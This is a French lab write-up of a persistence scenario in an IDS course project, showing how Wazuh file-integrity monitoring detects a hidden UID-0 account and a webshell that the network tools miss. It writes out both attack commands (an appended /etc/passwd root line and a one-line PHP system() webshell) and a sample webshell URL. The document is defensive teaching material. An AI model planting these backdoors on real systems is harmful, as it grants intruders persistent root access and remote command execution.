


# Attaque 4 — Modification de fichiers sensibles

> Mode opératoire du scénario 4. Contexte et justification : [scénarios](../2-wazuh/02-scenarios.md#scénario-4--modification-de-fichiers-sensibles-). Prérequis : lab démarré (`lab/lab.sh up`).

- **But** : simuler un attaquant **déjà présent** sur la victime qui se maintient — compte root caché (MITRE T1136.001) et webshell (T1505.003) —, et le détecter par la **surveillance d'intégrité des fichiers** de **Wazuh** (syscheck/FIM).
- **Particularité** : aucune trace réseau. Ni Suricata, ni nginx, ni `auth.log` ne voient ces actions — **ELK ne détecte rien ici**. Seul un HIDS avec FIM les révèle. C'est l'intérêt du scénario.

## 1. Attaque (sur la victime)

Contrairement aux attaques 1 à 3, les commandes se lancent **sur la victime** (root), pas depuis Kali : on joue un attaquant déjà entré. Accès par la console ou par SSH.

```bash
# 1. Compte caché avec UID 0 (= droits root) ajouté à /etc/passwd
echo "pirate:x:0:0::/root:/bin/bash" >> /etc/passwd

# 2. Webshell déposé dans le site DVWA : exécute une commande passée en paramètre HTTP
echo '<?php system($_GET["cmd"]); ?>' > /var/www/dvwa/shell.php
```

La FIM surveille ces deux emplacements en temps réel (`/etc/passwd,/etc/shadow,/etc/sudoers` et `/var/www/dvwa`), intégrée à l'image ([déploiement](../2-wazuh/01-deploiement.md#intégrité-des-fichiers-scénario-4)).

## 2. Vérifications

**Victime** — la surveillance temps réel est bien active :

```bash
grep -E "realtime|/etc/passwd|/var/www/dvwa" /var/ossec/etc/ossec.conf
sudo grep -iE "syscheck|realtime" /var/ossec/logs/ossec.log | tail
```

**Wazuh** (`wazuh.grdr.fr`) :
- *Agents → victime → Integrity monitoring* (module FIM) : `/etc/passwd` **Modified** et `/var/www/dvwa/shell.php` **Added**.
- *Threat Hunting*, `agent.name: victime`, groupe `syscheck` :
  - règle **550** (contenu d'un fichier surveillé modifié) sur `/etc/passwd` — grâce à `report_changes`, l'alerte montre **la ligne ajoutée** ;
  - règle **554** (fichier ajouté) sur `/var/www/dvwa/shell.php`.

## 3. Résultat obtenu

Attaque jouée le 21/10/2026, détection par la FIM confirmée côté Wazuh (ELK muet, comme attendu).



**Wazuh** : les deux événements remontent dans le groupe `syscheck` — `shell.php` **ajouté** (554) et `/etc/passwd` **modifié** (550), source `victime`.



Le détail de l'alerte 550 affiche le **diff** produit par `report_changes` : on voit la ligne `pirate:x:0:0:…` réellement ajoutée. La preuve n'est pas seulement « un fichier a changé », mais **ce qui** a changé.


## 4. Points d'attention

- **Zéro trace réseau = angle mort d'un IDS réseau.** C'est la démonstration du scénario : Suricata et les règles ELK ne voient rien. Seule la surveillance locale des fichiers (HIDS) détecte la persistance. Un IDS réseau et un HIDS sont complémentaires.
- **Temps réel contre analyse périodique.** Par défaut syscheck ne repasse que toutes les 12 h : la détection serait différée. `realtime="yes"` sur les répertoires sensibles donne une alerte immédiate.
- **`report_changes` = la preuve du contenu.** Sans cette option, l'alerte dirait seulement « fichier modifié » ; avec elle, on voit **quoi** a été ajouté (`pirate:x:0:0:…`), ce qui qualifie directement la menace.
- **Pourquoi c'est grave.** Un compte d'UID 0 donne un accès root permanent ; le webshell permet d'exécuter des commandes à distance par simple requête HTTP (`http://10.10.10.10/shell.php?cmd=id`).

## 5. Réponse de l'administrateur

Supprimer le compte `pirate` de `/etc/passwd` et le fichier `shell.php` · rechercher le vecteur d'entrée initial (corréler avec les scénarios 1-2 depuis la même source) · à ce stade, la machine est compromise : la reconstruire à partir d'une image saine est plus sûr qu'un nettoyage.

## 6. Remise à zéro

```bash
# Sur la victime, retirer les artefacts de l'attaque
sudo sed -i '/^pirate:/d' /etc/passwd
sudo rm -f /var/www/dvwa/shell.php
```

Ou simplement repartir d'une image propre :

```bash
cd ~/cours/secu-info/projet-ids/lab && ./lab.sh down && ./lab.sh reset && ./lab.sh up
```
